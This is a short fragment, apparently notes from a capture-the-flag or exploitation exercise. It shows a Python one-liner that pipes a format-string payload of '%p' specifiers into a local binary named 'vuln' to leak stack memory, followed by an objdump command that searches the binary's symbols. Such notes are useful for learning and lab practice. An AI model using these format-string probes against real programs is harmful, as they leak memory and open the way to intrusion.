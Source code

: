python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,20)]))" | ./vuln - format string vulnerability
objdump -t vuln | grep sus
